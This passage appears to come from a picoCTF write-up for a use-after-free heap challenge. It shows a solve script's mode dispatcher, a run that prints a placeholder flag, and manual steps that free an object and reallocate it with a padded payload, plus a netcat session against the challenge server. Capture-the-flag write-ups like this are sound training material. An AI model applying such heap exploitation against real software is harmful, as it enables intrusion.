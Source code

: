 ```python

def main():
    if(len(sys.argv) <=1):
        print("Please enter operation")
        sys.exit()
    operation=sys.argv[1]
    
    if operation == "local":
        local()
    elif operation == "remote":
        remote_server()
    else:
        print("Invalid operation")
main()
```

It has two options, `local` and `remote`, to execute the exploit on either the local binary or the remote server
```
$ python script_3.py local
[+] Starting local process './chall': pid 11691
[+] Receiving all data: Done (459B)
[*] Process './chall' stopped with exit code 0 (pid 11691)
picoCTF{My_Flag}
```
Or it can be easily done manually like shown below

## Solution
- Free `x` using option 5
- Calculate size of struct which is 35
- Allocate a new object using option 2
- Enter size 35
- Enter 30 random characters followed by `pico` as data like `AAAAAAAAAABBBBBBBBBBCCCCCCCCCCpico`
- Check for win using option 4

### Execution Example
```
$ nc tethys.picoctf.net 53532

freed but still in use
now memory untracked
do you smell the bug?

1. Print Heap
2. Allocate object
3. Print x->flag
4. Check for win
5. Free x
6. Exit

Enter your choice: 5

1. Print Heap
2. Allocate object
3. Print x->flag
4. Check for win
5. Free x
6. Exit

Enter your choice: 2
Size of object allocation: 35
Data for flag: AAAAAAAAAABBBBBBBBBBCCCCCCCCCCpico

```